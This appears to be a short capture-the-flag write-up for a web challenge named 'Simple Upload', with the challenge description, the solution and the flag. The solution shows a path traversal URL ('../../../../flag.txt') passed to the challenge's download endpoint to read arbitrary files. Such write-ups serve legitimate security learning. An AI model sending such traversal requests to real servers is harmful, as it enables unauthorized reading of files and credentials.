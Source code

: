 # Simple Upload

> The challenge was authored by [criticic](https://iitbhucybersec.in/authors/criticic/)

Total Solves - 124

Final Points - 100

## Description
Made another upload tool. This time it can accept more things!

## Writeup
This challenge was essentially a path traversal challenge.

When you upload something, a link to the uploaded file is given.

```
http://codefest-ctf.iitbhu.tech:10192/download?file=uploads/upload.png
```

If you try to put a path in file parameter, it fetches the file from the path allowing us to get any file on the system.

```
http://codefest-ctf.iitbhu.tech:10192/download?file=../../../../flag.txt
```
This gives the flag!

## Flag
`CodefestCTF{p4th_7r4v3r5al_15_5c4ry_[a-zA-Z0-9]}`